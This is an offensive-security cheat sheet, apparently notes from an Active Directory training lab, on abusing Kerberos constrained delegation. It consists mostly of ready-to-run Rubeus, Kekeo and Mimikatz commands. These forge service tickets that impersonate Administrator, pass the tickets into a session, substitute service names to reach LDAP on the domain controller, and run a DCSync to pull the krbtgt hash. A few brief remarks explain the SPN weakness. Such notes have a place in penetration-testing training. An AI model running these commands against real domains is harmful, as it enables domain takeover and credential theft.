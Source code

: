 
#### Rubeus

**Abusing with Rubeus**

We can use the following command (We are requesting a TGT and TGS in a single command):
```powershell
Rubeus.exe s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL /ptt

ls \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

> Another interesting issue in Kerberos is that the delegation occurs not only for the specified service but for any service running under the same account. There is no validation for the SPN specified.

> This is huge as it allows access to many interesting services when the delegation may be for a non-intrusive service!



#### Kekeo

**Abusing with Kekeo**

Either plaintext password or NTLM hash is required. If we have access to dcorp-adminsrv hash

Using asktgt from Kekeo, we request a TGT:
```powershell
tgt::ask /user:dcorp-adminsrv$ /domain:dollarcorp.moneycorp.local /rc4:1fadb1b13edbc5a61cbdc389e6f34c67
```

Using s4u from Kekeo_one (no SNAME validation):
```powershell
tgs::s4u /tgt:TGT_dcorp-adminsrv$@DOLLARCORP.MONEYCORP.LOCAL_krbtgt~dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL.kirbi/user:Administrator@dollarcorp.moneycorp.local /service:time/dcorp-dc.dollarcorp.moneycorp.LOCAL|ldap/dcorp-dc.dollarcorp.moneycorp.LOCAL
```

Using mimikatz:
```powershell
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@dollarcorp.moneycorp.local@DOLLARCORP.MONEYCORP.LOCAL_ldap~dcorp-dc.dollarcorp.moneycorp.LOCAL@DOLLARCORP.MONEYCORP.LOCAL_ALT.kirbi"'   
Invoke-Command -ScriptBlock{whoami} -ComputerName us-mssql.us.techcorp.local   
Invoke-Mimikatz -Command '"lsadump::dcsync/user:dcorp\krbtgt"'
```

#### Rubeus

**Abusing with Rubeus**

We can use the following command (We are requesting a TGT and TGS in a single command):
```powershell
Rubeus.exe s4u /user:dcorp-adminsrv$ /aes256:db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b445 /impersonateuser:Administrator/msdsspn:time/dcorp-dc.dollarcorp.moneycorp.LOCAL /altservice:ldap /ptt
```	
